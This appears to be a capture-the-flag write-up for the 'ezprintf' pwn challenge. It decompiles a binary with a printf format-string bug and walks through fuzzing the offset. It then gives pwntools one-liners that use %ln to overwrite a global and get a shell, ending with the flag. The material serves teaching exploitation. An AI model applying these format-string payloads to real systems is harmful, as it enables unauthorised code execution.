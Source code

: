 # ezprintf
Pwn

## Challenge 

Printf is wonky. Time to exploit its wonkyness.

nc challs.hats.sg 1304

Reading material:

https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf
Author: @dickheadedzed

## Hint

## Solution

Decompile in Hopper

	int main() {
	    setvbuf(*stdin@@GLIBC_2.2.5, 0x0, 0x2, 0x0);
	    setvbuf(*__TMC_END__, 0x0, 0x2, 0x0);
	    *(int32_t *)magic = 0x0;
	    read(0x0, &var_410, 0x400);
	    printf(&var_410);
	    if (*(int32_t *)magic != 0x0) {
	            system("/bin/sh");
	    }
	    rax = 0x0;
	    rcx = *0x28 ^ *0x28;
	    if (rcx != 0x0) {
	            rax = __stack_chk_fail();
	    }
	    return rax;
	}

We simply need to write something to address of `magic` (which is at `0x60106c`).

	python -c 'from pwn import *; print "%lx" + p64(0x60106c) | nc challs.hats.sg 1304

Fuzz for offset

	# python -c 'from pwn import *; print "AAAABBBB:" + "%lx-" * 10' | nc challs.hats.sg 1304
	AAAABBBB:7fff777e6ef0-400-7faafdc79260-7faafdf48780-0-4242424241414141-786c252d786c253a-786c252d786c252d-786c252d786c252d-786c252d786c252d-

We see it at offset 6

	# python -c 'from pwn import *; print "AAAABBBB:" + "%06$lx"' | nc challs.hats.sg 1304
	AAAABBBB:4242424241414141

And since we are working with 64-bits, the address has null bytes. So we must add the address behind our payload at offset 7.


	# python -c 'from pwn import *; print "%07$lx  " + p64(0x4142434445464748)' | nc challs.hats.sg 1304
	4142434445464748  HGFEDCBA

Now change to our magic address.

	# (python -c 'from pwn import *; print " %07$ln " + p64(0x60106c)'; cat) | nc challs.hats.sg 1304
	  l`ls
		bin
		dev
		ezprintf
		flag
		lib
		lib32
		lib64
	cat flag
	HATS{h3h1_that_w1z_3z}

## Flag

	HATS{h3h1_that_w1z_3z}
